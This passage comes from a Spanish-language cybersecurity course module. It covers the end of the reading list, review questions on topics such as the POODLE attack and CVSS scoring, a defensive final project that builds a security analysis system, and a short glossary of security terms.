4. **Stallings, William** (2010). _Network Security Essentials: Applications and Standards_, 4a Ed., Prentice Hall.
   - Capítulo 8: "Intrusion Detection"
   - Capítulo 9: "Firewalls"

5. **Ferguson, Niels, Bruce Schneier y Tadayoshi Kohno** (2010). _Cryptography Engineering: Design Principles and Practical Applications_, Wiley.
   - Capítulo 13: "Implementation Issues"
   - Capítulo 14: "Testing"
   - Capítulo 15: "The Software Development Process"

6. **MITRE Corporation** - CVE (Common Vulnerabilities and Exposures)
7. **FIRST** - CVSS (Common Vulnerability Scoring System)
8. **OWASP** - Top 10 Web Application Security Risks
9. **NIST** - Cybersecurity Framework

### 9. Evaluación del Aprendizaje

#### Preguntas de Revisión

1. Describa tres tipos de ataques pasivos y sus métodos de detección
2. Explique el funcionamiento del ataque POODLE y cómo mitigarlo
3. Compare herramientas de análisis estático vs dinámico
4. ¿Cómo funciona CVSS para priorizar vulnerabilidades?
5. Describa el proceso forense básico después de un incidente de seguridad

#### Proyecto Final

Implemente un sistema completo de análisis de seguridad que incluya:

1. Módulo de escaneo de vulnerabilidades
2. Analizador de tráfico de red
3. Detector de ataques en tiempo real
4. Sistema de scoring de riesgos
5. Generador de reportes ejecutivos y técnicos
6. Dashboard de monitoreo

### 10. Glosario de Términos

- **Zero-day:** Vulnerabilidad desconocida para el vendor
- **Exploit:** Código que aprovecha una vulnerabilidad
- **Payload:** Parte del exploit que realiza la acción maliciosa
- **Shellcode:** Código ejecutable en memoria para obtener shell
- **ROP (Return-Oriented Programming):** Técnica de explotación que usa gadgets existentes
- **ASLR (Address Space Layout Randomization):** Técnica de defensa
- **DEP (Data Execution Prevention):** Protección contra ejecución de código en áreas de datos
- **IDS/IPS:** Sistemas de detección/prevención de intrusiones
- **SIEM:** Sistema de gestión de eventos e información de seguridad
- **Forensic Imaging:** Creación de copia bit-a-bit para análisis forense
